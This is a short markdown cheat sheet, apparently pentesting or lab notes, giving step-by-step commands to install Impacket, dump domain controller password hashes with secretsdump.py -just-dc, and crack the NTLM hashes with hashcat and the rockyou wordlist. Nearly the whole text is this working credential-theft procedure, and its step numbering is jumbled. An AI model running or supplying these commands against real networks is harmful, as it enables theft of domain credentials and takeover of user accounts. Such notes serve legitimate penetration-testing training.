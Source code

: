 ```yaml
---
legal-banner: true
---
```


### **USING IMPACKET SECRETSDUMP.PY**

1. Update Package List
    `sudo apt-get update`
2. Install Python3-Pip
    `sudo apt-get install python3-pip`
5. Install Impacket
    `pip3 install impacket`
1. Extract Hashes
    	`secretsdump.py -outputfile inlanefreight_hashes -just-dc EXAMPLE/[USERNAME]:[PASSWORD]@[IP_ADDRESS]`
1. Install Hashcat
	`sudo apt-get install hashcat`
3.  Crack NTLM Hashes
	`hashcat -m 1000 -a 0 example_hashes.ntds /usr/share/wordlists/rockyou.txt`
	`hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`